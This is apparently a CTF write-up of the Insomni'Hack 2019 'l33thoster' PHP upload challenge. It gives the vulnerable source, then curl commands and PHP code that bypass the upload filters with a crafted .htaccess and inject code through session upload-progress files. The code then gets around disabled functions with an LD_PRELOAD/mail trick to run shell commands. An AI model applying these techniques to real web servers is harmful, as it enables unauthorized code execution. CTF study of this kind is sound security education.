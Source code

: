 ```yaml
---
layout: post
title: Insomni'Hack teaser 2019 l33thoster writeup
tags: web, ctf, rce, insomnihack
---
```


# Description
You can host your l33t pictures <a href="#">here</a>.

# The Challenge
This challenge was a PHP challenge that allowed users to upload files in custom folder, the source code was given :
```php
<?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```	

## Ideas

My first thought was that the extension check was done without case check so changing the case could work.

Also the challenge suggested we couldn't use php tags `<?`, and  we need to make the file look like an image (bypass `exif_imagetype`) with defined size `1337x1337` 

# Solving the challenge

The challenge is basically asking for a `.htaccess` upload while bypassing all restrictions, we need a valid image header that will not break `.htaccess` syntax, which is `wbmp` because it starts with a null byte and `.htaccess` will ignore that line, we craft our `.htaccess` file and add a directive to make our custom extension files be interpreted as `PHP`.
![screen1.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen1.png)
We do the same thing to upload our php file with the custom extension the content isn't important.
![screen2.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen2.png)

The next step is to edit `.htaccess` file and add two more directives, the first one is disable php session upload_progress cleanup, and the second one is append file which will be a custom session one.

![screen3.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen3.png)
Note that PHP_SESSION_UPLOAD_PROGRESS will create a session file for me, and disabling the cleanup will not remove my files so I don't need to do any kind of race conditions.

```sh
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
Now requesting our `.xyz` file in the browser shows some serialized data with interested reflected values
![screen4.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen4.png)
so the file parameter is reflected here it's `file` and also whatever I put in PHP_SESSION_UPLOAD_PROGRESS, i'm gonna use one of them to inject my php code.
I'm going to intercept my curl request in burp and edit one of the parameters.
```sh
export http_proxy="http://127.0.0.1:8080/"
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
![screen5.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen5.png)
I changed the PHPSESSID value because the old one wasn't deleted, so we need to use a new one, need to change it in `.htaccess` as well.
Let's request our file in the browser and enjoy RCE.
![screen6.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen6.png)
Trying various command execution functions results in nothing so we'd better check `phpinfo`
![screen8.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen8.png)
It seems that `mail()` and `putenv()` aren't filtered, so we could overwrite `LD_PRELOAD` to our custom `.so` file and overwrite some function that mail calls.
I stumbeled across another problem of how to upload a valid `.so` file since we didn't have arbitrary upload , also `file_put_contents` and other file manipulation functions were filtered, the solution was to upload the file using our php script and `move_uploaded_file` function. 
_ for more details about compiling and generating .so file please check https://corb3nik.github.io/blog/alictf-2016/homework_
```sh
curl -vvv 'http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz?0=move_uploaded_file($_FILES[%22image%22][%22tmp_name%22],%20%22/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so%22);' -F 'image=@hack.so' -g
```
Next we need to execute the following PHP code to get shell command execution.

```php
	echo putenv("LD_PRELOAD=/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so");
  echo putenv("exec=".$_GET['cmd']);
  echo mail("a", "a", "a");
  show_source("/tmp/out.txt");
```

I have used a perl payload to get reverse shell, the final step was to bypass the captcha  in the `get_flag` binary in an automated way , I have used `PHP` for this.

```php
<?php


        $descriptorspec = array(
           0 => array("pipe", "r"),  
           1 => array("pipe", "w"),  
           2 => array("file", "/tmp/error-output.txt", "a")
        );

        $cwd = '/';
        $env = array();

        $process = proc_open('/get_flag', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {

            $res = eval('return '.explode(":", fread($pipes[1], 1024))[1].';');

            fwrite($pipes[0], $res);
             fclose($pipes[0]);

            echo fread($pipes[1], 1024);

            echo fread($pipes[1], 1024);

            $return_value = proc_close($process);

        }
?>
```
```sh
$ php -f /tmp/file.php

INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}
```
The flag is `INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}`.